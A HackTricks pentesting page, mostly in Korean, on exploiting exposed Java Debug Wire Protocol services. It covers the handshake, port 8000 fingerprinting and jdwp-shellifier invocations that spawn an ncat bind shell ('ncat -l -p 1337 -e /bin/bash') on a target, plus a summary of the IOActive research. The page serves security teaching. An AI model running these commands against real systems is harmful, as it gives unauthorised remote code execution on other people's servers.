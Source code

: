 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구와 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 그들이 더 깊이 파고들고, 셸을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWP 악용은 **프로토콜의 인증 및 암호화 부족**에 달려 있습니다. 일반적으로 **포트 8000**에서 발견되지만 다른 포트도 가능합니다. 초기 연결은 대상 포트에 "JDWP-Handshake"를 전송하여 이루어집니다. JDWP 서비스가 활성화되어 있으면 동일한 문자열로 응답하여 존재를 확인합니다. 이 핸드셰이크는 네트워크에서 JDWP 서비스를 식별하는 지문 인식 방법으로 작용합니다.

프로세스 식별 측면에서 Java 프로세스에서 "jdwk" 문자열을 검색하면 활성 JDWP 세션을 나타낼 수 있습니다.

주요 도구는 [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier)입니다. 다양한 매개변수와 함께 사용할 수 있습니다:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**This is a summary of [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Check it for further details.


1. **JDWP 개요**:
- 패킷 기반의 네트워크 이진 프로토콜로, 주로 동기식입니다.
- 인증 및 암호화가 부족하여 적대적인 네트워크에 노출될 경우 취약합니다.

2. **JDWP 핸드셰이크**:
- 통신을 시작하기 위해 간단한 핸드셰이크 프로세스가 사용됩니다. 디버거(클라이언트)와 디버기(서버) 간에 14자 ASCII 문자열 “JDWP-Handshake”가 교환됩니다.

3. **JDWP 통신**:
- 메시지는 길이, ID, 플래그 및 명령 집합과 같은 필드를 가진 간단한 구조를 가지고 있습니다.
- 명령 집합 값은 0x40에서 0x80까지 다양하며, 서로 다른 동작 및 이벤트를 나타냅니다.

4. **악용**:
- JDWP는 임의의 클래스와 바이트코드를 로드하고 호출할 수 있어 보안 위험을 초래합니다.
- 이 기사는 Java 런타임 참조를 가져오고, 중단점을 설정하고, 메서드를 호출하는 5단계의 악용 프로세스를 자세히 설명합니다.

5. **실제 악용**:
- 잠재적인 방화벽 보호에도 불구하고 JDWP 서비스는 발견 가능하며 실제 시나리오에서 악용될 수 있습니다. 이는 ShodanHQ 및 GitHub와 같은 플랫폼에서의 검색을 통해 입증됩니다.
- 이 악용 스크립트는 다양한 JDK 버전에서 테스트되었으며 플랫폼에 독립적이며 신뢰할 수 있는 원격 코드 실행(RCE)을 제공합니다.

6. **보안 의미**:
- 인터넷에 열린 JDWP 서비스의 존재는 정기적인 보안 검토, 프로덕션에서 디버그 기능 비활성화 및 적절한 방화벽 구성의 필요성을 강조합니다.


### **References:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**즉시 사용 가능한 취약점 평가 및 침투 테스트 설정**. 20개 이상의 도구 및 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않으며, 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter**에서 **팔로우**하세요 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
